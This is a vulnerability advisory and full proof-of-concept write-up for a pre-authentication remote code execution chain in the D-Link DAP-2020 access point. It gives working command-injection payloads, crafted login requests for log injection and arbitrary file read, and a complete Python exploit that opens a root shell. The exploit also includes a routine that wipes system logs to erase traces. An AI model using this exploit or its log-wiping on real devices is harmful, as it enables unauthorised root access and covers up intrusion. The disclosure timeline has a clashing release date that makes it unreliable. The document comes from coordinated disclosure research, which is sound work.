

| ID | Product | Version | Vulnerability |
|---|---|---|---|
| CVE-2021-27249, CVE-2021-27250 | D-Link DAP-2020 | 1.01 | Zero-Click Preauth RCE Chain |
D-LinkGATE Remote Code Execution
Description
Affected devices: We tested our POC on the DAP-2020 (Hardwareversion: A1, Firmware-Version: 6.10) model. Jannis@SUID:~$ wget ftp://ftp.dlink.de/dap/dap-2020/driver_software/DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip
--2021-02-26 19:25:45-- ftp://ftp.dlink.de/dap/dap-2020/driver_software/DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip
=> ‘DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip’
Resolving ftp.dlink.de (ftp.dlink.de)... 217.6.104.69
Connecting to ftp.dlink.de (ftp.dlink.de)|217.6.104.69|:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done. ==> PWD ... done.
==> TYPE I ... done. ==> CWD (1) /dap/dap-2020/driver_software ... done.
==> SIZE DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip ... 3827340
==> PASV ... done. ==> RETR DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip ... done.
Length: 3827340 (3.6M) (unauthoritative)
DAP-2020_fw_reva_102rc002_ALL 100%[=================================================>] 3.65M 1.12MB/s in 3.3s
2021-02-26 19:25:49 (1.12 MB/s) - ‘DAP-2020_fw_reva_102rc002_ALL_en_20200322.zip’ saved [3827340]
After downloading the firmware from D-Link's FTP server we can use binwalk to extract the filesystem.
Jannis@SUID:~/DAP-2020_fw_reva_102rc002_ALL_en_20200322$ binwalk -e DAP-2020_RevA_Firmware_102rc002.bin
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
164 0xA4 LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 3949248 bytes
1143972 0x1174A4 Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 2682216 bytes, 1876 inodes, blocksize: 65536 bytes, created: 2020-07-10 09:10:05
The important files are stored in the webroot: DAP-2020_fw_reva_102rc001_ALL_en_20171120\DAP-2020_RevA_Firmware102rc001\usr\www
It contains a few html files used by the webserver and a cgi-bin providing access to the mips binaries.
- Webproc: Main Binary used for handling of web interface
- Webupg: Binary used for file uploads, firmware upgrades, config changes
Jannis@SUID:~/DAP-2020_fw_reva_102rc002_ALL_en_20200322/_DAP-2020_RevA_Firmware_102rc002.bin.extracted/squashfs-root/usr/www/cgi-bin$ checksec webproc
[*] Checking for new versions of pwntools
To disable this functionality, set the contents of /home/Jannis/.cache/.pwntools-cache-3.7/update to 'never' (old way).
Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
[update]
interval=never
[*] You have the latest version of Pwntools (4.3.1)
[!] Could not populate MIPS GOT: seek out of range
[!] Did not find any GOT entries
[*] '/home/Jannis/DAP-2020_fw_reva_102rc002_ALL_en_20200322/_DAP-2020_RevA_Firmware_102rc002.bin.extracted/squashfs-root/usr/www/cgi-bin/webproc'
Arch: mips-32-big
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x400000)
RWX: Has RWX segments
Jannis@SUID:~/DAP-2020_fw_reva_102rc002_ALL_en_20200322/_DAP-2020_RevA_Firmware_102rc002.bin.extracted/squashfs-root/usr/www/cgi-bin$ checksec webupg
[!] Could not populate MIPS GOT: seek out of range
[!] Did not find any GOT entries
[*] '/home/Jannis/DAP-2020_fw_reva_102rc002_ALL_en_20200322/_DAP-2020_RevA_Firmware_102rc002.bin.extracted/squashfs-root/usr/www/cgi-bin/webupg'
Arch: mips-32-big
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x400000)
RWX: Has RWX segments
Vulnerabilities:
-Blind RCE:
The root-cause lies in a function called WEB_CmdFileList.
The function tries to check if files exist in a specific directory based on user input using process open (popen).
While it does perform some string sanitization it isn't executed properly and can be bypassed by an attacker.
if (*(int *)(iParm1 + 0x10) == 2) {
iVar1 = OM_BufferNew(0,"web_cmd.c",0x567);
if (iVar1 != 0) {
iVar6 = 0;
RAWINPUT = OM_ValFind(&g_pstWebVars,"var:curdir");
if (RAWINPUT == 0) {
snprintf((char *)RCEGOAL,0x400,"ls -la \"/mnt\"");
OM_ValSet(&g_pstWebVars,"var:curdir",&DAT_0040e694);
RAWINPUT = OM_ValFind(&g_pstWebVars,"var:curdir");
}
strip_path(*(undefined4 *)(RAWINPUT + 4),STRIPPEDINPUT);
iVar2 = valied_dir(STRIPPEDINPUT);
pcVar7 = snprintf;
__s = RCEGOAL;
if (iVar2 == 0) {
pcVar3 = (char *)0x400;
pcVar4 = "ls -la /mnt";
}
else {
snprintf((char *)__s,0x400,"ls -la \"/mnt%s\"",STRIPPEDINPUT);
pcVar3 = "var:curdir";
pcVar4 = STRIPPEDINPUT;
pcVar7 = OM_ValSet;
__s = &g_pstWebVars;
}
(*pcVar7)(__s,pcVar3,pcVar4);
__stream = popen((char *)RCEGOAL,"r");
LAB_00409500:
The router implements a custom templating engine to call certain parts of the code.
reach this part we need to provide a value into the "curdir" variable.
We also need a "filels" tag used in an earlier piece of code that triggers our vulnerable part.
A first simple approach would be uploading a new html page over a language pack including:
"<?echo $var:curdir ?><?filels /?>""
We then are able to supply values over GET or POST requests calling the curdir variable.
POST Example:
Append {"var:curdir": "/\" && ls / #'} to your usual POST request doing something else with the user.
Alternatively you can just append it to a GET request.
However since the exploit at this stage is blind you would get no usuable response back yet (only forward slashes since the application is supposed to display paths).
-Blind RCE to full RCE escalation
Due to the way the format string provides data from the popen stream to stdout we can guess if a command succeeds or not.
else {
snprintf((char *)__s,0x400,"ls -la \"/mnt%s\"",STRIPPEDINPUT);
pcVar3 = "var:curdir";
pcVar4 = STRIPPEDINPUT;
pcVar7 = OM_ValSet;
__s = &g_pstWebVars;
}
(*pcVar7)(__s,pcVar3,pcVar4);
__stream = popen((char *)RCEGOAL,"r");
LAB_00409500:
iVar2 = feof(__stream);
if (iVar2 == 0) {
iVar2 = fscanf(__stream,"%s %s %s %s %s %s %s %s%[^\n]\n",auStack592,auStack576,auStack568,
auStack536,auStack504,auStack488,auStack480,auStack472,acStack456);
if (iVar2 == 9) {
iVar2 = strcmp(acStack456,".");
if (iVar2 != 0) {
iVar2 = strcmp(acStack456,"..");
if (iVar2 == 0) {
iVar2 = strcmp(*(char **)(RAWINPUT + 4),"/");
Using a command like {"var:curdir": "/\" && mkdir test || ls -lax / #'} displays either one slash for a succeeded command or eight slashes from the ls -lax (which is guaranteed to suceed).
Eight slashes is the maximum due to the way fscanf is formated.
We can use this and pipe our output into a public directory: {"var:curdir": "/\" && mkdir test > /tmp/test || ls -lax / #'}.
Now the full output is available at /tmp/test, letting us gain regular RCE capabilities!
-Log Injection
We can provide an arbitrary username when trying to login.
The username is written to the system logs, thus allowing us to inject arbitrary strings into the logfiles.
POST /cgi-bin/webproc HTTP/1.1
Host: dlinkap
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
Origin: http://dlinkap
DNT: 1
Connection: close
Referer: http://dlinkap/cgi-bin/webproc
Cookie: sessionid=365dfaef; auth=nok; expires=Mon, 31-Jan-2050 16:00:00 GMT; Lan_IPAddress=dlinkap; language=zh_cn; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; langmanulset=yes
Upgrade-Insecure-Requests: 1
getpage=html%2Findex.html&errorpage=/var/log/sysevent.txt&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=CONTROLLED&%3Apassword=test&%3Aaction=login&%3Asessionid=365dfaef
Log Output:
###2011-01-01 20:03:34 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[] A new Device Connected, IPaddress:169.254.20.175, MacAddress:9c:b6:d0:bb:ef:d7
###2011-01-01 20:03:34 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] Not found session 365dfaef, user login check failed
###2011-01-01 20:06:04 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User admin login failed, because username or password is wrong
###2011-01-01 20:06:16 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User admin login failed, because username or password is wrong
###2011-01-01 20:06:36 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User admin login failed, because username or password is wrong
###2011-01-01 20:10:26 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User admin login failed, because username or password is wrong
###2011-01-01 20:12:18 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User admin login failed, because username or password is wrong
###2011-01-01 20:13:56 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User CONTROLLED login failed, because username or password is wrong
###2011-01-01 20:14:33 [5] syslog: Accessor:[CPE] Method:[AUTH] Para:[] Result:[9007] User CONTROLLED login failed, because username or password is wrong
-Arbitrary File Read
When sending a login request we are provided with several POST options.
We can use the errorpage= tag to get redirected to an arbitrary page after a failed login request thus leaking arbitrary system files.
POST /cgi-bin/webproc HTTP/1.1
Host: dlinkap
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 198
Origin: http://dlinkap
DNT: 1
Connection: close
Referer: http://dlinkap/cgi-bin/webproc
Cookie: sessionid=365dfaef; auth=nok; expires=Mon, 31-Jan-2050 16:00:00 GMT; Lan_IPAddress=dlinkap; language=zh_cn; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; langmanulset=yes
Upgrade-Insecure-Requests: 1
getpage=html%2Findex.html&errorpage=/var/log/sysevent.txt&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=test&%3Aaction=login&%3Asessionid=365dfaef
HTTP Response:
HTTP/1.0 200 OK
Content-type: text/html
Cache-Control: no-cache
set-cookie: sessionid=365dfaef;
set-cookie: auth=nok;
set-cookie: expires=Mon, 31-Jan-2050 16:00:00 GMT;
###2011-01-01 20:00:21 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Determined physical RAM map:
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] memory: 02000000 @ 00000000 (usable)
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] User-defined physical RAM map:
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] memory: 02000000 @ 00000000 (usable)
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Zone PFN ranges:
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Normal 0x00000000 -> 0x00002000
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Movable zone start PFN for each node
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] early_node_map[1] active PFN ranges
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] 0: 0x00000000 -> 0x00002000
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] On node 0 totalpages: 8192
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] free_area_init_node: node 0, pgdat 803a6920, node_mem_map 81000000
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Normal zone: 64 pages used for memmap
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Normal zone: 0 pages reserved
###2011-01-01 20:00:22 [5] syslog: Accessor:[CPE] Method:[Logger] Para:[] Result:[0] Normal zone: 8128 pages, LIFO batch:0
...
-Arbitrary File upload
An authenticated user can download a language pack, edit it, rezip it and upload it to add custom files into the system.
-LPE
Privilege Escalation not necessary since webproc is running as root already.
-Exploit chain
Our initial approach was "Upload File" -> "Inject tags into language pack" -> "Trigger them over request and gain root access."
However after finding a bunch of useful vulnerabilities we discovered the following preauth chain:
"Use username log injection to insert templating tags into syslogs" -> "Use errorpage arbitrary file read on syslogs to trigger tags" -> "Provide rce information HTTP request and pipe to file" -> "Use arbitrary file read to read rce information".
This way we get root access without authentication or user interaction and gain access over the network.
-Full POC
import requests
import random
import string
import signal
import sys
TARGET = "http://dlinkap:80"
def make_exploit(cmd,path):
session = requests.session()
burp0_url = TARGET + "/cgi-bin/webproc"
burp0_cookies = {"sessionid": "1ba9028b", "auth": "nok", "expires": "Mon, 31-Jan-2050 16:00:00 GMT", "Lan_IPAddress": "dlinkap", "language": "zh_cn", "langmanulset": "yes", "sys_UserName": "admin", "expires": "Mon, 31-Jan-2050 16:00:00 GMT"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "de,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://dlinkap", "DNT": "1", "Connection": "close", "Referer": "http://dlinkap/cgi-bin/webproc?getpage=html/languages/German/help_setup.html&errorpage=html/main.html&var:language=German&var:menu=setup&var:page=wizard&var:login=true", "Upgrade-Insecure-Requests": "1"}
burp0_data = {"getpage": "html/index.html", "errorpage": "/var/log/sysevent.txt", "var:menu": "setup", "var:page": "wizard", "var:login": "true", "obj-action": "auth", ":username": "", ":password": '', ":action": "login", ":sessionid": "1ba9028b", "var:curdir": "/\" && {0} > /tmp/{1} || ls -lax / #'".format(cmd,path)}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
def write_file(cmd,path):
session = requests.session()
burp0_url = TARGET + "/cgi-bin/webproc"
burp0_cookies = {"sessionid": "1ba9028b", "auth": "nok", "expires": "Mon, 31-Jan-2050 16:00:00 GMT", "Lan_IPAddress": "dlinkap", "language": "zh_cn", "langmanulset": "yes", "sys_UserName": "admin", "expires": "Mon, 31-Jan-2050 16:00:00 GMT"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "de,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://dlinkap", "DNT": "1", "Connection": "close", "Referer": "http://dlinkap/cgi-bin/webproc?getpage=html/languages/German/help_setup.html&errorpage=html/main.html&var:language=German&var:menu=setup&var:page=wizard&var:login=true", "Upgrade-Insecure-Requests": "1"}
burp0_data = {"getpage": "html/index.html", "errorpage": "/var/log/sysevent.txt", "var:menu": "setup", "var:page": "wizard", "var:login": "true", "obj-action": "auth", ":username": "", ":password": '', ":action": "login", ":sessionid": "1ba9028b", "var:curdir": "/\" && echo {0} >> {1} || ls -lax / #'".format(cmd,path)}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
def validate_exploit(path):
session = requests.session()
burp0_url = TARGET + "/cgi-bin/webproc"
burp0_cookies = {"sessionid": "1ba9028b", "auth": "nok", "expires": "Mon, 31-Jan-2050 16:00:00 GMT", "Lan_IPAddress": "dlinkap", "language": "zh_cn", "langmanulset": "yes", "sys_UserName": "admin", "expires": "Mon, 31-Jan-2050 16:00:00 GMT"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "de,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://dlinkap", "DNT": "1", "Connection": "close", "Referer": "http://dlinkap/cgi-bin/webproc?getpage=html/languages/German/help_setup.html&errorpage=html/main.html&var:language=German&var:menu=setup&var:page=wizard&var:login=true", "Upgrade-Insecure-Requests": "1"}
burp0_data = {"getpage": "html/index.html", "errorpage": "/tmp/{0}".format(path), "var:menu": "setup", "var:page": "wizard", "var:login": "true", "obj-action": "auth", ":username": "", ":password": '', ":action": "login", ":sessionid": "1ba9028b"}
res = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
print(res.content.decode('utf-8'))
def kill_silent(cmd):
session = requests.session()
burp0_url = TARGET + "/cgi-bin/webproc"
burp0_cookies = {"sessionid": "1ba9028b", "auth": "nok", "expires": "Mon, 31-Jan-2050 16:00:00 GMT", "Lan_IPAddress": "dlinkap", "language": "zh_cn", "langmanulset": "yes", "sys_UserName": "admin", "expires": "Mon, 31-Jan-2050 16:00:00 GMT"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "de,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://dlinkap", "DNT": "1", "Connection": "close", "Referer": "http://dlinkap/cgi-bin/webproc?getpage=html/languages/German/help_setup.html&errorpage=html/main.html&var:language=German&var:menu=setup&var:page=wizard&var:login=true", "Upgrade-Insecure-Requests": "1"}
burp0_data = {"getpage": "html/index.html", "errorpage": "/var/log/sysevent.txt", "var:menu": "setup", "var:page": "wizard", "var:login": "true", "obj-action": "auth", ":username": "", ":password": '', ":action": "login", ":sessionid": "1ba9028b", "var:curdir": "/\" && {0} || ls -lax / #'".format(cmd)}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
def generate_location(stringLength=10):
"""Generate a random string of fixed length """
letters = string.ascii_lowercase
return ''.join(random.choice(letters) for i in range(stringLength))
def signal_handler(sig, frame):
print("[*] Exiting with light cleanup")
kill_silent("rm " + loc)
exit()
signal.signal(signal.SIGINT, signal_handler)
print("[*] Starting D-LinkGATE")
loc = generate_location()
print("[+] Generated secret location for file leakage: /tmp/" + loc)
r = requests.get(TARGET)
if('window.location.href = "/cgi-bin/webproc";' not in r.content):
print("[!] Bad target...exiting")
exit()
print("[+] Target valid up & running: " + TARGET)
print("----------------------------------")
print(" Welcome to ro(u)tshell ")
print("----------------------------------")
#loc = generate_location()
while True:
exploit = raw_input(">_ ")
if(exploit == "killme"):
print("[*] Performing hard cleanup")
kill_silent("rm " + loc)
kill_silent("echo '' > /var/log/lastlog")
kill_silent("echo '' > /var/log/messages")
kill_silent("echo '' > /var/log/original_data")
kill_silent("echo '' > /var/log/sysevent.txt")
kill_silent("echo '' > /var/log/wtmp")
elif(exploit == "ll"):
make_exploit("cat /var/log/sysevent.txt", loc)
leak = validate_exploit(loc)
elif(exploit == "write"):
path = raw_input("path:")
content = raw_input("content:")
write_file(content, path)
elif(exploit == "fwrite"):
path = raw_input("path:")
lpath = raw_input("local_path:")
with open(lpath, "rb") as file:
file_content = file.read()
write_file(file_content, path)
else:
make_exploit(exploit, loc)
leak = validate_exploit(loc)
Output:
Python 2.7.15 (v2.7.15:ca079a3ea3, Apr 30 2018, 16:30:26) [MSC v.1500 64 bit (AMD64)] on win32
Type "copyright", "credits" or "license()" for more information.
>>>
================ RESTART: C:\Users\Jannis\Desktop\exploit.py ================
[*] Starting D-LinkGATE
[+] Generated secret location for file leakage: /tmp/cgcsxyfmds
[+] Target valid up & running: http://dlinkap:80
----------------------------------
Welcome to ro(u)tshell
----------------------------------
>_ ls
cgi-bin
factory_mode.html
html
index.html
safe_index.html
test_version.html
version.txt
webAuth.xml
>_ ls /
bin
dev
etc
lib
mnt
pool
proc
root
sbin
sys
tmp
usr
var
>_ ps
PID Uid VSZ Stat Command
1 root 1756 SW init
2 root SW< [kthreadd]
3 root SW< [ksoftirqd/0]
4 root SW< [events/0]
5 root SW< [khelper]
6 root SW< [async/mgr]
7 root SW< [kblockd/0]
8 root SW [pdflush]
9 root SW< [kswapd0]
14 root SW< [mtdblockd]
42 root 2432 SW /usr/sbin/mini_httpd -d /usr/www -c /cgi-bin/* -u roo
46 root 1756 SW -sh
47 root 1756 SW /usr/sbin/inetd
48 root 2336 SW /usr/bin/pc
49 root 4028 SW /usr/bin/logic
50 root 2288 SW /usr/bin/ip6mon
51 root 2288 SW /usr/bin/ramon
52 root 2300 SW /usr/bin/ip6aac
67 root 1752 SW /sbin/klogd -n
68 root 2344 SW /usr/bin/logmonitor /var/log/sysevent.txt 24480 /var/
265 root 1472 SW /usr/sbin/wscd -start -c /var/wscd.conf -w wlan0 -fi
311 root 1208 SW /usr/sbin/radvd -C /var/radvd.conf -d 1
326 root 2044 SW /sbin/dproxy -c /etc/dproxy.conf -d
603 root 1120 SW /sbin/nbns -s dlinkap -i 169.254.230.56 -k fe80::6263
608 root 1120 SW /sbin/nbns -s dlinkap -i 169.254.230.56 -k fe80::6263
644 root 1140 SW iwcontrol wlan0
1010 root 2132 SWN webproc
1012 root 2460 SW /usr/sbin/mini_httpd -d /usr/www -c /cgi-bin/* -u roo
1013 root 1756 SWN sh -c ls -la "/mnt/" && ps > /tmp/cgcsxyfmds || ls
1015 root 1756 RWN ps
>_ date
Sat Jan 1 20:59:16 CCT 2011
>_
Disclosure Timeline
- June 19, 2020 - Submitted vulnerability to Zeroday Initiative (ZDI)
- July 03, 2020 - Submitted additional product information to ZDI
- Aug 12, 2020 - Submitted additional details to ZDI
- Aug 30, 2020 - Sold vulnerabilities (27249 & 27250) to ZDI
- Aug 30, 2020 - Sold vulnerabilities (27249 & 27250) to ZDI
- Sep 08, 2020 - ZDI reported vulnerability to vendor
- Feb 24, 2020 - Coordinated public release of advisory
Credit
Jannis Kirschner & Anthony Schneiter from Team SUID